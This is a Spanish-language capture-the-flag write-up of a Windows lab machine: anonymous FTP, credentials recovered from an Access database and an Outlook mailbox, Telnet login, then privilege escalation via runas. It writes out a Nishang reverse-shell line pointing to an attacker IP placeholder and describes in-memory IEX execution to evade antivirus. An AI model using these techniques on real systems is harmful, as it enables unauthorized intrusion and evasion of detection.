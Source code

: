 ![](../img/Access/0.png)

#Windows #AD #nishang #Runas
____

El acceso es un &amp;quot;fácil&amp;quot; dificultad de la máquina, que pone de relieve cómo las máquinas asociadas con la seguridad física de un entorno puede no ser en sí mismo seguro. También se destaca cómo FTP / archivos compartidos accesibles a menudo puede conducir a conseguir un punto de apoyo o movimiento lateral. Enseña técnicas para identificar y explotar las credenciales guardadas.
____

Iniciando la fase de reconocimiento, se realizó un escaneo con **RustScan** para identificar los puertos abiertos en el equipo, obteniendo los siguientes resultados:

![](../img/Access/1.png)

<span class="center-text">Escaneo con RUSTSCAN</span>

Una vez obtenidos los resultados, se identificó que los puertos **21 (FTP), 23 (Telnet) y 80 (HTTP)** están abiertos. A partir de esta información, se procede con la enumeración del **puerto 21 (FTP)** para analizar posibles accesos, credenciales y configuraciones del servicio.

![](../img/Access/2.png)

<span class="center-text">Acceso a ftp anonimamente</span>

Se observa que el servidor FTP permite acceso anónimo, lo que nos brinda la posibilidad de listar su contenido. Al acceder, identificamos la presencia de **dos directorios**, por lo que procedemos a enumerar su contenido. Como resultado, se obtienen los siguientes archivos:

![](../img/Access/3.png)

<span class="center-text">Archivos encontrados</span>

Se identificaron **dos archivos** en el servidor FTP. Basándonos en sus extensiones:

- **`backup.mdb`**: La extensión **`.mdb`** indica que podría tratarse de una base de datos de **Microsoft Access**. Este tipo de archivos suele utilizarse para almacenar información estructurada y puede contener credenciales, registros o datos sensibles.
- **`archivo.zip`**: Un archivo comprimido que podría contener información relevante, por lo que es necesario analizar su contenido.

Procedemos a descargar ambos archivos para su análisis. Sin embargo, al intentar descargar **`backup.mdb`**, se presenta un **conflicto**. Esto puede deberse a **permisos restringidos**, **corrupción del archivo** o **configuración del servidor FTP** que impide su descarga directa.

![](../img/Access/4.png)

<span class="center-text">Error de descarga</span>

Investigando un poco más sobre el funcionamiento de **FTP**, notamos que para descargar archivos que no son de texto (como bases de datos, imágenes o archivos comprimidos), es necesario activar el **modo binario**.

Al cambiar al **modo binario** antes de la descarga, logramos obtener el archivo **backup.mdb** exitosamente. Esto garantiza que el archivo se transfiera sin corrupción y pueda ser analizado correctamente.

Ahora, procederemos a examinar el contenido de ambos archivos en busca de información relevante.

![](../img/Access/5.png)

<span class="center-text">Cambiando a binary y obtencion de archivo</span>

Al contar con ambos archivos, decidimos analizar primero el contenido del **archivo ZIP**, pero notamos que **está protegido con contraseña**, lo que impide su extracción inmediata. Dado que aún no contamos con la clave, dejamos esta parte pendiente para un posible ataque de fuerza bruta o revisión de pistas en otros archivos.

Pasamos entonces a investigar cómo abrir el archivo **`.mdb`** y encontramos un **visualizador en línea**, [mdoopener](https://www.mdbopener.com/) que nos permitirá explorar su contenido sin necesidad de herramientas locales. Procedemos a cargar el archivo en la herramienta para analizar si contiene información relevante, como credenciales, registros de acceso o configuraciones útiles.

![](../img/Access/6.png)

<span class="center-text">Intento de descompresión de archivo zip</span>

![](../img/Access/7.png)

<span class="center-text">Visualizador en linea de archivos mdb</span>

Al abrir y analizar el contenido del archivo **`.mdb`**, encontramos una tabla llamada **`auth_user`**, que almacena **usuarios y contraseñas**.

Inicialmente, intentamos utilizar estas credenciales para acceder a **Telnet**, pero **no tuvimos éxito**. Sin embargo, decidimos probar la contraseña extraída con el archivo **ZIP protegido**, y logramos **descomprimirlo exitosamente**.

Ahora procederemos a analizar el contenido del archivo extraído en busca de información relevante que pueda ayudarnos a obtener acceso al sistema o descubrir más pistas sobre su seguridad.

![](../img/Access/8.png)

<span class="center-text">Credenciales contradas</span>

![](../img/Access/9.png)

<span class="center-text">Extracción de datos</span>

Al analizar el archivo extraído, observamos que tiene la extensión **`.pst`**, lo que indica que se trata de un **archivo de almacenamiento de correos electrónicos de Microsoft Outlook**. Estos archivos suelen contener correos, contactos y otros datos de la cuenta de un usuario.

Dado que queremos examinar su contenido de manera más accesible, investigamos si existe un método para **convertir un archivo `.pst` a `.pdf`**

![](../img/Access/10.png)

<span class="center-text">Conversion de pst a pdf</span>

Después de convertir el archivo **`.pst`** a **PDF**, lo analizamos y encontramos **un usuario y una contraseña** dentro de los correos almacenados.

Con esta nueva información, intentamos nuevamente autenticarnos en **Telnet**, y esta vez logramos acceder exitosamente al sistema. Como resultado de esta intrusión, **encontramos la primera flag**.

![](../img/Access/11.png)

<span class="center-text">Credenciales encontradas</span>

![](../img/Access/12.png)

<span class="center-text">Acceso al sistema</span>

![](../img/Access/13.png)

<span class="center-text">Flag user</span>

### Privilege Escaltaion

Durante nuestra enumeración del sistema, identificamos un **archivo interesante** en el directorio **`Public/Desktop`**. Al analizarlo, notamos que se trata de un **acceso directo (`.lnk`)** que ejecuta comandos mediante `runas`, lo que indica que podría utilizarse para ejecutar procesos con **privilegios de administrador**.

![](../img/Access/14.png)

<span class="center-text">Identificación de un acceso directo que corre como administrador</span>

Dado que `runas` permite ejecutar programas con otro usuario, exploramos formas de **escalar privilegios** mediante este mecanismo. Se nos ocurre utilizar **Nishang**, un conjunto de scripts en PowerShell para post-explotación, y aprovecharlo para **cargar una reverse shell en memoria**, evitando tocar el disco y evadiendo detecciones básicas.

Clonar repositorio de nishang

```bash
git clone https://github.com/samratashok/nishang.git
```

Después de clonar el repositorio de **Nishang**, tomamos el archivo **`Invoke-PowerShellTcp.ps1`** y lo modificamos agregando la siguiente línea al final:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress <tu_ip> -Port 4444
```

Una vez realizado el proceso anterior, utilizamos **IEX (Invoke-Expression)** para descargar y ejecutar el payload en memoria, evitando escribirlo en disco y reduciendo la posibilidad de detección por antivirus o herramientas de monitoreo.

Siguiendo estos pasos, procedemos a descargarlo y obtendremos la revshell

![](../img/Access/15.png)

<span class="center-text">Ejecución como administrador de nuestra revshell</span>

![](../img/Access/16.png)
<span class="center-text">Acceso como root</span>

Después de ejecutar el exploit con **IEX** y obtener la reverse shell con **privilegios de administrador**, ahora podemos **buscar y capturar la flag de root**.

![](../img/Access/17.png)

<span class="center-text">Flag root</span>
